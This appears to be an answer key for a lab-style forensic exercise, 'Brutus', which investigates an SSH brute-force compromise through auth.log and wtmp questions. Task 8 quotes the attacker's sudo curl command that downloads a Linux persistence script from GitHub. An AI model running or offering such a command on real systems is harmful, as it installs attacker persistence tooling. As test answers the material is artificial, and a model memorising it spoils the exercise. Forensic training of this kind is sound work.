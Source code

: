 # BRUTUS

### Task 1 
Analyze the auth.log.
What is the IP address used by the attacker to carry out a brute force attack?
> 65.2.161.68

### Task 2
The brute-force attempts were successful and an attacker gained access to an account on the server. \
What is the username of the account?
> root

### Task 3
Identify the timestamp when the attacker logged in manually to the server to carry out their objectives.
The login time will be different than the authentication time, and can be found in the wtmp artifcat.
> 2024-03-06 06:32:45

### Task 4
SSH login sessions are tracked and assigned a session number upon login. 
What is the session number assigned to the attacker's session for the user account from Question 2?
> 37

### Task 5
The attacker added a new user as part of their persistence strategy on the server and gave this user account higher privileges. 
What is the name of this account?
> cyberjunkie

### Task 6
What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?
>T1136.001

### Task 7
What time did the attacker's first SSH session end according to auth.log?
> 2024-03-06 06:37:24

### Task 8
The attacker logged into their backdoor account and utilized their higher privileges to download a script.
What is the full command executed using sudo?
>/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

